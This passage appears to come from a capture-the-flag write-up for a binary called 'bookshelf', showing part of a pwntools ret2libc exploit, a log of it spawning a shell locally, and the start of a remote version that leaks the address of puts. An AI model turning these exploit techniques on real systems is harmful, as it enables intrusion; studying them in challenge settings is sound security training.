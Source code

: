 ```python
payload += p64( 0 )
payload += p64( libc_base + libc.symbols['exit'] )

p.sendline(payload)

log.success('Sent')
p.clean()

p.interactive()
```

Let's test it...

```console
> python exploit.py
[+] Starting local process './bookshelf': pid 2222546
[*] '/usr/lib/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Leaking puts...
[+] Puts found @ 0x7fdc73e75bf0
[+] libc base @ 0x7fdc73e00000
[*] Sending payload...
[*] Loaded 214 cached gadgets for '/usr/lib/libc.so.6'
[+] Sent
[*] Switching to interactive mode
$ whoami
vulnx
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './bookshelf' stopped with exit code 0 (pid 2222546)
[*] Got EOF while sending in interactive
> 
```

Oh good good! Our exploit is working perfectly.

Now all we need to do as adapt the local exploit to remote enviroment

#### Switching to remote

All we need to do is simply change our libc and process from local the remote ones. Final remote exploit:

```python
from pwn import *

p = remote('chal.pctf.competitivecyber.club on port', 4444)

libc = ELF('libc.so.6')

# LEAK PUTS
log.info('Leaking puts...')
for _ in range(20):
    p.sendline(b'2')    # Go to bookshop
    p.sendline(b'2')    # Buy/Attempt to buy a book
    p.sendline(b'y')    # Leave tip

p.sendline(b'2')    # Go to bookshop
p.sendline(b'3')    # Read value of puts()
p.sendline(b'N')    # No need to leave any more tip

```
